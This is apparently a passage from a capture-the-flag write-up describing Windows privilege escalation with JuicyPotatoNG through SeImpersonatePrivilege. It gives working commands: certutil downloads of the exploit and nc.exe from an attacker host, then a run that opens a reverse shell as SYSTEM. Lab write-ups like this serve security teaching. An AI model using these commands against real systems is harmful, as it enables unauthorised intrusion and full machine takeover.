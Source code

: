 If a user has `SeImpersonatePrivilege`, they act as a machine account when they authorize over a network. We can see it in action when we try to access our `responder` server as *defaultapppool* -

![Authenticating as a system account](Images/apppool_as_system.png)

We can use [RoguePotato](https://github.com/antonioCoco/JuicyPotatoNG) to exploit this vulnerability. Here's a blog about other [Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) if you're interested.
1. First, we'll download it to `Kali` -
```bash
wget https://github.com/antonioCoco/JuicyPotatoNG/releases/download/v1.1/JuicyPotatoNG.zip
```

2. Unzip the file and host it with `python` -
```bash
unzip JuicyPotatoNG.zip
python3 -m http.server 80
```

3. Download **both** `JuicyPotatoNG.exe` and `nc.exe` to Windows machine - 
```cmd
certutil.exe -urlcache -f http://10.10.16.17/JuicyPotatoNG.exe JuicyPotatoNG.exe
certutil.exe -urlcache -f http://10.10.16.17/nc.exe nc.exe
```

4. Run `JuicyPotatoNG.exe` -
```cmd
JuicyPotatoNG.exe -t * -p "C:\users\public\nc.exe" -a "10.10.16.17 53 -e cmd"
```

![Shell as admin](Images/admin_shell.png)

We'll get a shell as *NT AUTHORITY\\SYSTEM*. `root.txt` can be found in `C:\Users\Administrator\Desktop`

---
